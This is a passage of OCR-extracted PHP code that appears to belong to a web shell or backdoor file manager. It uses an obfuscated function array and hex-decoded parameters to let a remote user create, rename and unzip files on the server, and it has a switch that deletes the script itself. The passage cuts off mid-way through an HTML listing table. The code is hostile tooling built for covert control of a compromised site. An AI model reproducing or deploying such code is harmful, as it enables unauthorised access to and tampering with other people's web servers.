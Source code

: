 						}
					  }
					}
					elseif(isset($_GET["q"])) {
						if($GNJ[10](__FILE__)) {
							$GNJ[38]($GNJ[9]);
							header("Location: ".basename($_SERVER['PHP_SELF'])."");
							exit();
						}
						else {
							echo $g;
						}
					}
					elseif(isset($_GET["n"])) {
						echo $a_.'+FILE'.$b_.'
									<form action="" method="post">
										<input name="n" class="x" type="text" value="">
										'.$d_.'
								'.$c_;
					if(isset($_POST["n"])) {
						if(!$GNJ[25]($_POST["n"])) {
							ER();
						}
						else {
							OK();
						}
					  }
					}
					elseif(isset($_GET["r"])) {
						echo $a_.uhex($_GET["r"]).$b_.'
									<form action="" method="post">
										<input name="r" class="x" type="text" value="'.uhex($_GET["r"]).'">
										'.$d_.'
								'.$c_;
					if(isset($_POST["r"])) {
						if($GNJ[26]($_POST["r"])) {
							ER();
						}
						else {
							if($GNJ[27](uhex($_GET["r"]), $_POST["r"])) {
								OK();
							}
							else {
								ER();
							}
						  }
					   }
					}
					elseif(isset($_GET["z"])) {
						$zip = new ZipArchive;
						$res = $zip->open(uhex($_GET["z"]));
							if($res === TRUE) {
								$zip->extractTo(uhex($_GET["d"]));
								$zip->close();
								OK();
							} else {
								ER();
						  }
					}
					else {
					echo '<table cellspacing="0" cellpadding="7" width="100%">
						<thead>
							<tr>
								<th width="44%">[ NAME ]</th>